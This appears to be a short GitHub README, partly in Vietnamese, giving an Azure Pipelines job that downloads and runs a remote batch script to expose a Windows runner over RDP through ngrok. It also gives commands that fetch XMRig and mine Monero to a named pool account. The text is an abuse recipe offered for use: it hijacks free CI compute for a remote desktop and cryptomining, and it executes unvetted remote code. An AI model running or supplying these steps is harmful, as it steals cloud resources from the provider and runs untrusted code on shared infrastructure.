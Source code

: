 # Azure_RDP

###############################Copy Đoạn Code Trong Khung###############################

jobs:
- job: Windows_2019_Azure_RDP_by_HuyGK
  pool:
    vmImage: windows-latest
  steps:
   - checkout: none 
   - script: |
       echo ngrok authtoken "NGROK_AUTH_TOKEN" > NGROK.bat
       curl -s -O https://raw.githubusercontent.com/vpsclouds/VPSRDP/main/AzureNgrokAutoRegion.bat
       AzureNgrokAutoRegion.bat
     displayName: 'Chạy VPS trên Azure Pipeline'
 			
########################################################################################			
			
			
#link: https://azure.microsoft.com/en-us/services/devops/
#link ngrok: https://dashboard.ngrok.com/get-started/your-authtoken



wget https://github.com/xmrig/xmrig/releases/download/v6.12.1/xmrig-6.12.1-linux-x64.tar.gz
tar -xvf xmrig-6.12.1-linux-x64.tar.gz
./xmrig-6.12.1/xmrig -a cryptonight-upx/2 -o stratum+tcp://xmr.pool.minergate.com:45700 -u mrx@galpony.com -p x --keepalive --donate-level=0 --cuda -t 9
